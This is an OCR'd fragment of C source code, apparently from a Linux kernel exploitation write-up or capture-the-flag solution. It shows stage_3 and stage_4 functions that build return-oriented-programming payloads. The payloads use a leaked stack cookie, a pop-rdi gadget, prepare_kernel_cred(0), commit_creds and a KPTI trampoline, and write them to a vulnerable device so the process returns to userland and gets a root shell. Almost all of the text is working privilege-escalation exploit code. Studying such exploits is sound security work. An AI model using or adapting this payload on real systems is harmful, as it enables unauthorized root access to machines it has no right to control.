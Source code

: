 ```c

    cred_struct = tmp_store;
    printf("[*] =====> Got cred_struct: %lx\n", cred_struct);
    stage_4();
}


/*call prepare_kernel_cred(0)*/
void stage_3(){
    unsigned n = 50;
    unsigned long payload[n];
    unsigned off = 16;

    payload[off++] = cookie;
    payload[off++] = 0x0;
    payload[off++] = 0x0;
    payload[off++] = 0x0;
    payload[off++] = PopRdiRet;         //ret
    payload[off++] = 0;
    payload[off++] = prepare_kernel_cred;   //prepare_kernel_cred(0)
    
    payload[off++] = kpti_trampoline;
    payload[off++] = 0x0;
    payload[off++] = 0x0;
    payload[off++] = (unsigned long)get_cred_sturct;
    payload[off++] = user_cs;
    payload[off++] = user_rflags;
    payload[off++] = user_sp;
    payload[off++] = user_ss;

    puts("[*] Prepared payload to call prepare_kernel_cred(0)");
    ssize_t w = write(global_fd, payload, sizeof(payload));

    puts("[!] Should never be reached!");
}

/*call commit_creds(prepare_kernel_cred(0))*/
void stage_4(){
    unsigned n = 50;
    unsigned long payload[n];
    unsigned off = 16;

    payload[off++] = cookie;
    payload[off++] = 0x0;
    payload[off++] = 0x0;
    payload[off++] = 0x0;
    payload[off++] = PopRdiRet;
    payload[off++] = cred_struct;
    payload[off++] = commit_creds;

    payload[off++] = kpti_trampoline;
    payload[off++] = 0x0;
    payload[off++] = 0x0;
    payload[off++] = (unsigned long)get_shell;
    payload[off++] = user_cs;
    payload[off++] = user_rflags;
    payload[off++] = user_sp;
    payload[off++] = user_ss;

    puts("[*] Prepared payload to call commit_creds()");
    ssize_t w = write(global_fd, payload, sizeof(payload));

    puts("[!] Should never be reached!");
```